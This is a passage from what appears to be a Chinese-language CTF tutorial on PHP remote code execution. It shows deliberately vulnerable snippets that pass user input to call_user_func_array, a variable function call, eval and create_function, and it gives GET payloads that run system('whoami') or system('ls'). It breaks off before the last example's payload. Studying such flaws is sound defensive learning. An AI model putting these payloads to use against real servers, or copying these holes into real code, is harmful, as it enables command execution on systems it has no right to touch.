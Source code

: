 ##### **E.g.6**

<?php  
error\_reporting(0);  
show\_source(\_\_FILE\_\_);  
$a = "$\_GET\[b\]";  
$b = array($\_GET\['c'\]);  
call\_user\_func\_array($a,$b);  
?>

payload:

> ?b=assert&c=system(%27whoami%27);

##### **E.g.7**

<?php  
error\_reporting(0);  
show\_source(\_\_FILE\_\_);  
$\_GET\['a'\]($\_GET\['b'\]);  
?>

传入参数a和b，一个作为函数执行，一个做位参数，构造payload:

> ?a=assert&b=system(%27ls%27)

##### **E.g.8**

<?php  
error\_reporting(0);  
show\_source(\_\_FILE\_\_);  
$a = "$\_GET\[b\]";  
eval($a);  
?>

一句话木马有没有很熟悉，直接get方式传参给**b**即可，payload:

> ?b=system("ls");

##### **E.g.9**

<?php  
show\_source(\_\_FILE\_\_);  
echo "<br>";  
echo '请输入一个a的值';  
echo "<br>";  
error\_reporting(0);  
$price = $\_GET\['a'\];  
$code = 'echo $name. '.'的美元价格是' .$price.'; ';  
$b = create\_function('$name',$code);  
$b('iphone');  
?>

基本上属于3的内容加强版，重点就是需要进行闭合，，代码变多了，payload没有出入，重点还是再**$code**的位置

payload:

